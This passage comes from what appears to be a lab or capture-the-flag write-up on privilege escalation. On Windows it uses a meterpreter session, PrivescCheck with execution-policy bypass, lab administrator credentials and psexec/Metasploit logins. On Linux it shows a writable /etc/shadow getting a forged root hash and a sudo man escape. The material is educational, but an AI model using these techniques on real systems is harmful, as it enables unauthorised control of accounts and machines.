 With meterpreter, go to `c:\\users\student\desktop\privesccheck` and execute these commands in the privesc directory.

```bash
C:\> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

<figure><img src="../../.gitbook/assets/128.png" alt=""><figcaption></figcaption></figure>

Credentials : `administrator:hello_123321`. Open a PowerShell terminal as administrator and enter the password.

```powershell
PS> more c:\users\administrator\desktop\flag.txt
```

#### Authenticate as administrator

**Method 1 :** PSExec

```bash
kali@kali> psexec.py administrator@10.3.29.122  # administrator:hello_123321
```

**Method 2 :** MSF module

```bash
msf6> use exploit/windows/smb/psexec
msf6> set rhosts 10.3.29.122
msf6> set smbuser administrator
msf6> set smbpass hello_123321
msf6> run
```

### Linux privilege escalation

#### Weak permissions

Here the `/etc/shadow` file is writable, inject a new password for `root`.

```bash
student@kali> find / -not -type l -perm -o+w
student@kali> cat /etc/shadow
student@kali> openssl passwd -1 -salt abs password123
# The output is the hash $1$abs$d0N35Mn8MMuul2VQClbOx1
student@kali> vi /etc/shadow
```

<figure><img src="../../.gitbook/assets/129.png" alt=""><figcaption></figcaption></figure>

```bash
student@kali> su root  # password123
root@kali> cat /root/flag
```

#### SUDO privileges

```bash
kali@kali> sudo -l
kali@kali> sudo /usr/bin/man ls
```
